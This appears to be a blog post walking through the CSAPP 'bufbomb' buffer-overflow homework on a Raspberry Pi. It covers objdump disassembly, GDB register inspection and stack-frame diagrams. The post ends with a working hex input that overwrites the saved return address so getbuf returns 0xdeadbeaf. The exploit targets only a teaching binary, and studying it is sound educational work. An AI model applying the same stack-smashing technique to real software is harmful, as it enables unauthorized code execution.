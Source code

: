 ```yaml
---
title: Bufferoverflow Experiment (CSAPP)
date: 2013-11-02 22:00
layout: post
category: projects
comments: true
tags: disassembly gdb bufferoverflow arm RPi c
description: "
Recently I have been reading a book from CMU named 'Computer Systems: A Programmer's Perspectie'. It's a very interesting book and makes quite good illustrations. It's not difficult to understand but I noticed an interesting experiment in Chapter 3 homework about stack buffer overflow injection. Although the book mainly talked about IA32, I completed it on ARM with my Raspberry Pi.
" 
---
```


Recently I have been reading a book from CMU named *Computer Systems: A Programmer's Perspectie*. It's a very interesting book and makes quite good illustrations. It's not difficult to understand but I noticed an interesting experiment in Chapter 3 homework about stack buffer overflow injection. Although the book mainly talked about IA32, I completed it on ARM with my Raspberry Pi.

*The question was a source file given in [bufbomb.c](http://csapp.cs.cmu.edu/public/1e/ics/code/asm/bufbomb.c). In the program procedure, test() calls getbuf() which calls getxs() and returns 1 constantly. Getxs() gets inputs from command line in hex format until meets an enter event. The requirement is to make getbuf() returns 0xdeadbeaf ( or other random hex strings actually ) instead of the constant 1.*

#####Use objdump to disassemble the binary file

In order to use GDB to learn about its register values and memory addresses. Use `-g` option to build the source file.

	gcc -g -o bufbomb bufbomb.c

Then 

	objdump -d bufbomb > disassemble.s

	00008590 <getbuf>:
	    8590:   e92d4800    push    {fp, lr}
	    8594:   e28db004    add fp, sp, #4
	    8598:   e24dd010    sub sp, sp, #16
		...	    
	    85a4:   ebffffa4    bl  843c <getxs>
	    85a8:   e3a03001    mov r3, #1
	    85ac:   e1a00003    mov r0, r3
	    85b0:   e24bd004    sub sp, fp, #4
	    85b4:   e8bd8800    pop {fp, pc}
	
	000085b8 <test>:
	    85b8:   e92d4800    push    {fp, lr} 
	    85bc:   e28db004    add fp, sp, #4
	    85c0:   e24dd008    sub sp, sp, #8
        ...
        85d0:   ebffffee    bl  8590 <getbuf>
	    85d4:   e50b0008    str r0, [fp, #-8]
	    85d8:   e59f3014    ldr r3, [pc, #20]   ; 85f4 <test+0x3c>
	    85dc:   e1a00003    mov r0, r3
	    85e0:   e51b1008    ldr r1, [fp, #-8]
	    85e4:   ebffff57    bl  8348 <_init+0x20>
        ...
        
lr in getbuf() would be storing `0x85d4` (this will also be verified in the GDB debugger) as its the next address to `bl getbuf`, when the callee returns, the return value would be put to `[fp, #-8]` and retrieved to r1 register. (See Step 3)

A stack-frame graph could be got from the disassembly codes. It should be noticed that in APCS (Arm Procedure Call Standard), r0 register is chosen to store the return value of functions. So It's not necessary to draw all of the several funtions as obviously the operation required would be in the connections in test() and getbuf(). 

[![stack-frame.jpg]({{BASE_PATH}}/images/csapp/stack-frame.jpg)]({{BASE_PATH}}/images/csapp/stack-frame.jpg)

<br />

#####Use GDB to get values of fp registers (lr registers can be got from either disassembly codes or GDB debugger)

Set breakpoints before each function call so that we can get the lr and fp values of the caller's function frame and pushed onto the callee's stack.

Starting program: /home/pi/workspace/test/bufbomb/bufbomb 

	Breakpoint 18, main () at bufbomb.c:63
	63	    *space = 0; 
	(gdb) print $fp
	$39 = (void *) 0xbefff5f4  
	(gdb) c
	Continuing.
	
	Breakpoint 4, test () at bufbomb.c:48
	48	    printf("Type Hex string:");
	(gdb) p $fp
	$40 = (void *) 0xbeffeff4  
	(gdb) p /x *(0xbeffeff4 - 0x4) 
	$42 = 0xbefff5f4
	(gdb) c
	Continuing.
	
	Breakpoint 3, getbuf () at bufbomb.c:41
	41	    getxs(buf);
	(gdb) p $fp
	$44 = (void *) 0xbeffefe4 
	(gdb) p /x *(0xbeffefe4) 
	$46 = 0x85d4 ; This is exactly the same from the dissembly code: 85d4:   e50b0008    str r0, [fp, #-8]

If a GDB debugger tool is not preferred, a printf() function will also be useful. But it will require an inline asm code in the c source file to get the register values. For example, put this code:

	int fp_value;
	__asm__ __volatile__("mov [result], fp\n": [result]"=r"(fp_value));
	printf("fp register value: 0x%.8x\n", fp_value);

in front of a function call process to get the caller's funtion pointer value. 

Now we can add the addresses and register values to the stack-frame graph above:

[![stack-frame2.jpg]({{BASE_PATH}}/images/csapp/stack-frame2.jpg)]({{BASE_PATH}}/images/csapp/stack-frame2.jpg)


<br />
#####Buffer overflow

The basic trick here is to modify the lr value on the stack of getbuf() to point to an address that by-pass the operation that sets r0, the return value of getbuf(), which is `1`, to `[fp - 0x4]` position of test() that is used to set r1 as the second parameter to `printf(format, ...)`. In order to change the lr value, we need to override it in a provided way. That is the **buffer overflow** we talking about here. `buf[12]` was defined and passed to getxs() with only the starter pointer without its length, which is unknow to the callee function. While there is no restriction of `*sp++`, it won't be long before the `*sp` reaches the fp pointer and modify its value.

[![stack-frame3.jpg]({{BASE_PATH}}/images/csapp/stack-frame3.jpg)]({{BASE_PATH}}/images/csapp/stack-frame3.jpg)

<br />
#####Result

Obviously, the input value could be:

	10 10 10 10 10 10 10 10 10 10 10 10 f4 ef ff be d8 85 00 00 00 00 00 00 af be ad de f4 f5 ff be 50 86 00

to get the result:

	(gdb) r
	Starting program: /home/pi/workspace/test/bufbomb/bufbomb 
	Type Hex string:10 10 10 10 10 10 10 10 10 10 10 10 f4 ef ff be d8 85 00 00 00 00 00 00 af be ad de f4 f5 ff be 50 86 00
	getbuf returned 0xdeadbeaf
	[Inferior 1 (process 2834) exited normally]

<br />

**Note: The process was done on the ARM platform, different platforms and compilers would require different input values as they might have different stack-frame structure and different addresses.**
